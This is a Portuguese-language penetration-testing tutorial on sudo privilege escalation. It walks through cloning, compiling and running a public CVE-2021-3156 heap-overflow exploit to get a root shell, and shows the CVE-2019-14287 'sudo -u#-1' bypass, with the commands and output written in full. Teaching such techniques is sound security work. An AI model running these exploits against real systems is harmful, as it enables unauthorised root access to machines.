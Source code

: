 O programa `sudo` é utilizado em sistemas UNIX, como Linux e macOS, para executar processos com os direitos de outro usuário, geralmente para comandos que só administradores podem executar.
Ele adiciona uma camada de segurança, evitando danos ao sistema por usuários não autorizados. O arquivo `/etc/sudoers` define quais usuários ou grupos têm permissão para executar programas específicos e com quais privilégios.

```shell-session
cry0l1t3@nix02:~$ sudo cat /etc/sudoers | grep -v "#" | sed -r '/^\s*$/d'
[sudo] password for cry0l1t3:  **********

Defaults        env_reset
Defaults        mail_badpass
Defaults        secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin"
Defaults        use_pty
root            ALL=(ALL:ALL) ALL
%admin          ALL=(ALL) ALL
%sudo           ALL=(ALL:ALL) ALL
cry0l1t3        ALL=(ALL) /usr/bin/id
@includedir     /etc/sudoers.d
```

Uma das vulnerabilidades mais recentes para `sudo` carrega o CVE-2021-3156 e é baseada em uma vulnerabilidade de estouro de buffer baseada em heap. Isso afetou as versões sudo:

- 1.8.31 - Ubuntu 20.04
- 1.8.27 - Debian 10
- 1.9.2 - Fedora 33
- e outros

Para descobrir a versão do sudo, o seguinte comando é suficiente:
```shell-session
cry0l1t3@nix02:~$ sudo -V | head -n1

Sudo version 1.8.31
```

O interessante sobre essa vulnerabilidade é que ela estava presente há mais de dez anos até ser descoberta. Há também uma [Prova de Conceito](https://github.com/blasty/CVE-2021-3156) pública que pode ser usada para isso. 
Podemos baixá-la para uma cópia do sistema de destino que criamos ou, se tivermos uma conexão com a internet, para o próprio sistema de destino.

```shell-session
cry0l1t3@nix02:~$ git clone https://github.com/blasty/CVE-2021-3156.git
cry0l1t3@nix02:~$ cd CVE-2021-3156
cry0l1t3@nix02:~$ make

rm -rf libnss_X
mkdir libnss_X
gcc -std=c99 -o sudo-hax-me-a-sandwich hax.c
gcc -fPIC -shared -o 'libnss_X/P0P_SH3LLZ_ .so.2' lib.c
```

Ao executar o exploit, podemos ver uma lista que listará todas as versões disponíveis dos sistemas operacionais que podem ser afetados por esta vulnerabilidade.

```shell-session
cry0l1t3@nix02:~$ ./sudo-hax-me-a-sandwich

** CVE-2021-3156 PoC by blasty <peter@haxx.in>

  usage: ./sudo-hax-me-a-sandwich <target>

  available targets:
  ------------------------------------------------------------
    0) Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27
    1) Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31
    2) Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28
  ------------------------------------------------------------

  manual mode:
    ./sudo-hax-me-a-sandwich <smash_len_a> <smash_len_b> <null_stomp_len> <lc_all_len>
```

Podemos descobrir com qual versão do sistema operacional estamos lidando usando o seguinte comando:

```shell-session
cry0l1t3@nix02:~$ cat /etc/lsb-release

DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=20.04
DISTRIB_CODENAME=focal
DISTRIB_DESCRIPTION="Ubuntu 20.04.1 LTS"
```

Em seguida, especificamos o respectivo ID para a versão do sistema operacional e executamos o exploit com nossa carga útil.

```shell-session
cry0l1t3@nix02:~$ ./sudo-hax-me-a-sandwich 1

** CVE-2021-3156 PoC by blasty <peter@haxx.in>

using target: Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31 ['/usr/bin/sudoedit'] (56, 54, 63, 212)
** pray for your rootshell.. **

# id

uid=0(root) gid=0(root) groups=0(root)
```

## Bypass de política do Sudo

Outra vulnerabilidade foi encontrada em 2019 que afetou todas as versões abaixo de `1.8.28`, o que permitiu que os privilégios aumentassem mesmo com um comando simples. Esta vulnerabilidade tem o [CVE-2019-14287](https://www.sudo.ws/security/advisories/minus_1_uid/) e requer apenas um único pré-requisito. Ela tinha que permitir que um usuário no arquivo `/etc/sudoers` executasse um comando específico.

```shell-session
cry0l1t3@nix02:~$ sudo -l
[sudo] password for cry0l1t3: **********

User cry0l1t3 may run the following commands on Penny:
    ALL=(ALL) /usr/bin/id
```

Na verdade, `Sudo` também permite que comandos com IDs de usuário específicos sejam executados, o que executa o comando com os privilégios do usuário carregando o ID especificado. O ID do usuário específico pode ser lido do arquivo `/etc/passwd`.

```shell-session
cry0l1t3@nix02:~$ cat /etc/passwd | grep cry0l1t3

cry0l1t3:x:1005:1005:cry0l1t3,,,:/home/cry0l1t3:/bin/bash
```

Assim, o ID para o usuário `cry0l1t3`seria `1005`. Se um ID negativo ( `-1`) for inserido em `sudo`, isso resulta no processamento do ID `0`, que somente o `root` tem. Isso, portanto, levou ao shell root imediato.

```shell-session
cry0l1t3@nix02:~$ sudo -u#-1 id

root@nix02:/home/cry0l1t3# id

uid=0(root) gid=1005(cry0l1t3) groups=1005(cry0l1t3)
```

























































































